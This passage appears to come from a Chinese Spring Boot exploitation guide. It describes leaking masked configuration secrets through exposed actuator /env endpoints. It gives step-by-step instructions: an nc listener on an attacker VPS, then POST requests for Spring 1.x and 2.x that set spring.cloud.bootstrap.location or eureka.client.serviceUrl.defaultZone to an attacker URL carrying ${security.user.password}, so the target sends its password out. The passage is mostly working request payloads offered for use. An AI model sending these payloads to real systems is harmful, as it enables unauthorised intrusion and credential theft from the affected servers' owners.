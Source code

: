 #### 利用条件：

- 通过 POST `/env` 设置属性触发目标对外网指定地址发起任意 http 请求
- 目标可以请求攻击者的服务器（请求可出外网）



#### 利用方法：

> 参考 UUUUnotfound 提出的 [issue-1](https://github.com/LandGrey/SpringBootVulExploit/issues/1)，可以在目标发外部 http 请求的过程中，在 url path 中利用占位符带出数据

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。



##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```bash
nc -lvk 80
```



##### 步骤三： 触发对外 http 请求

- `spring.cloud.bootstrap.location` 方法（**同时适用于**明文数据中有特殊 url 字符的情况）：



spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/?=${security.user.password}
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/?=${security.user.password}"}
```



- `eureka.client.serviceUrl.defaultZone` 方法（**不适用于**明文数据中有特殊 url 字符的情况）：



spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/${security.user.password}
```
